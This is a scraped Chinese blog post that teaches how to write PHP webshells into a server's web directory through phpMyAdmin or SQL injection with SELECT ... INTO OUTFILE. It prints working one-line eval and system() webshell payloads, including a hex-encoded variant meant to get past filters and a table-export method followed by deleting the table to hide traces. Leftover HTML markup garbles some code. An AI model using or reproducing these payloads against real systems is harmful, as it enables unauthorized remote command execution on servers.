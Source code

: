 ```yaml
---
title: Webshell（一）通过phmyadmin导出一句话
tags:
  - Webshell
id: 70
categories:
  - Webshell
date: 2016-07-28 10:21:42
---
```


<header class="entry-header">

# [Webshell（一）通过phmyadmin导出一句话](http://blog.blbana.cc/blog/Webshell%25EF%25BC%2588%25E4%25B8%2580%25EF%25BC%2589%25E9%2580%259A%25E8%25BF%2587phpmyadmin%25E5%25AF%25BC%25E5%2587%25BA%25E4%25B8%2580%25E5%258F%25A5%25E8%25AF%259D.html)

</header>
<div class="entry-content">

## 导语

> 今天无意中看见了一篇有关进入phpmyadmin中执行SQL语句写马的文章，自己搭好环境练习了一下

<!--more-->
### 正文

我们最常用的方法就是利用**SQL注入**构造出能够写shell的语句，通常都是这一句：

    SELECT '<span class="php"><span class="hljs-preprocessor">&lt;?php</span> @<span class="hljs-keyword">eval</span>(<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'passwd'</span>]);<span class="hljs-preprocessor">?&gt;</span></span>' INTO OUTFILE 'C：/wamp/www/1.hack'`</pre>
    执行完语句之后，我们发现shell已经被写在了对应目录写的文件里

    ![image](http://123.206.79.232/img/Webshell1.jpg)

    有时候我们发现自己的shell并没有编写成功，这有可能是我们的shell被过滤掉了，我们可以考虑将shell转成十六进制的编码，再次尝试写马
    <pre>`<span class="hljs-operator"><span class="hljs-keyword">SELECT</span> <span class="hljs-number">0x3c3f70687020406576616c28245f504f53545b2768656c6c275d293b3f3e</span> <span class="hljs-keyword">INTO</span> <span class="hljs-keyword">OUTFILE</span> <span class="hljs-string">'C:/wamp/www/1.hack'</span></span>`</pre>
    这时我们可能绕过了过滤成功写马

    可能进行了十六进制的编码我们依然无法成功写马，今天我又看见了下面的几种通过phpmyadmin写马的方式，但让前提是我们要进入 **数据库**的**phpmyadmin**

    #### 1.我们可以现在数据库的**mysql数据库**中建立一个表shell,表中有字段shell1

    `CREATE TABLE shell(shell1 TEXT NOT NULL);`

    建好后给字段shell1输入values值 ，也就是shell

    `INSERT INTO shell(shell1) VALUES('&lt;?php @eval($_POST[pass])?&gt;');`

    写好这个字段以后，通过以下SQL语句将shell导出数据库
    <pre>`<span class="hljs-operator"><span class="hljs-keyword">SELECT</span> she111 <span class="hljs-keyword">from</span> shell <span class="hljs-keyword">INTO</span> <span class="hljs-keyword">OUTFILE</span> <span class="hljs-string">'c:/wamp/www/1.hack'</span>;</span>`</pre>
    执行完以上操纵以后，记得删除表哟 **哇哈哈哈哈**

    `DROP TABLE IF EXISTS 'shell';`

    #### 2.我们还可以写入PHP函数**system()**来执行系统命令

    <pre>`SELECT '<span class="php"><span class="hljs-preprocessor">&lt;?PHP</span> <span class="hljs-keyword">echo</span> <span class="hljs-string">'&lt;pre&gt;'</span>;system(<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'cmd'</span>])<span class="hljs-preprocessor">?&gt;</span></span>;echo '<span class="hljs-tag">&lt;/<span class="hljs-title">pre</span>&gt;</span>'';

> 标签
> 
> <pre></pre>
> 
> 目的是让返回的结果，保持原有的换行等操作，方便我们的查看
![image](http://123.206.79.232/img/Webshell.jpg)

之后我们就可以通过shell执行系统指令了，如下图

![image](http://123.206.79.232/img/webshell2.jpg)

这次先总结这么多的写shell的方法，以后发现新的了还会继续~~

</div>